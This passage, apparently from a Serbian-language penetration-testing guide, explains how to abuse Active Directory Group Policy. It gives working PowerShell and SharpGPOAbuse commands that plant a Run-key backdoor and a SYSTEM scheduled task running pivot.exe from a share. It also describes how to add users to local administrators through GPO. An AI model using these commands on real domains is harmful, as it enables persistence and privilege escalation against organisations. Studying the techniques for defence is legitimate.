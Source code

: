 ### GroupPolicy modul - Zloupotreba GPO

GroupPolicy modul, ako je instaliran, omogućava kreiranje i povezivanje novih GPO-ova, postavljanje preferencija kao što su vrednosti registra za izvršavanje zadnjih vrata na pogođenim računarima. Ovaj metod zahteva ažuriranje GPO-a i prijavljivanje korisnika na računar radi izvršavanja:

```powershell
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"
Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString
```

### SharpGPOAbuse - Zloupotreba GPO

SharpGPOAbuse nudi metod za zloupotrebu postojećih GPO-ova dodavanjem zadataka ili modifikovanjem postavki bez potrebe za kreiranjem novih GPO-ova. Ovaj alat zahteva modifikaciju postojećih GPO-ova ili korišćenje RSAT alata za kreiranje novih pre primene promena:

```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```

### Prisilno ažuriranje politike

Ažuriranja GPO obično se dešavaju svakih oko 90 minuta. Da bi se ubrzao ovaj proces, posebno nakon implementacije promene, može se koristiti komanda `gpupdate /force` na ciljnom računaru kako bi se prinudilo odmahšnje ažuriranje politike. Ova komanda osigurava da se bilo kakve modifikacije GPO-a primene bez čekanja na sledeći automatski ciklus ažuriranja.

### Pod Haubom

Prilikom inspekcije Zakazanih zadataka za određeni GPO, poput `Pogrešno konfigurisane politike`, može se potvrditi dodavanje zadataka poput `zlonamerniZadatak`. Ovi zadaci se kreiraju putem skripti ili alata za komandnu liniju sa ciljem modifikacije ponašanja sistema ili eskalacije privilegija.

Struktura zadatka, kako je prikazano u XML konfiguracionom fajlu generisanom pomoću `New-GPOImmediateTask`, detaljno opisuje zakazani zadatak - uključujući komandu koja će biti izvršena i njene okidače. Ovaj fajl predstavlja kako su zakazani zadaci definisani i upravljani unutar GPO-a, pružajući metod za izvršavanje proizvoljnih komandi ili skripti kao deo sprovođenja politike.

### Korisnici i Grupe

GPO takođe omogućava manipulaciju članstva korisnika i grupa na ciljnim sistemima. Uređivanjem fajlova politike Korisnici i Grupe direktno, napadači mogu dodati korisnike u privilegovane grupe, poput lokalne grupe `administratori`. Ovo je moguće putem delegiranja dozvola za upravljanje GPO-om, što omogućava modifikaciju fajlova politike radi uključivanja novih korisnika ili promene članstva u grupama.

XML konfiguracioni fajl za Korisnike i Grupe detaljno opisuje kako se ove promene implementiraju. Dodavanjem unosa u ovaj fajl, određenim korisnicima mogu biti dodeljene povišene privilegije na pogođenim sistemima. Ovaj metod pruža direktni pristup eskalaciji privilegija putem manipulacije GPO-om.

Osim toga, dodatne metode za izvršavanje koda ili održavanje postojanosti, poput iskorišćavanja skripti za prijavljivanje/odjavljivanje, modifikacije registarskih ključeva za autorun, instaliranje softvera putem .msi fajlova ili uređivanje konfiguracija servisa, takođe se mogu razmotriti. Ove tehnike pružaju različite načine za održavanje pristupa i kontrolisanje ciljnih sistema putem zloupotrebe GPO-a.
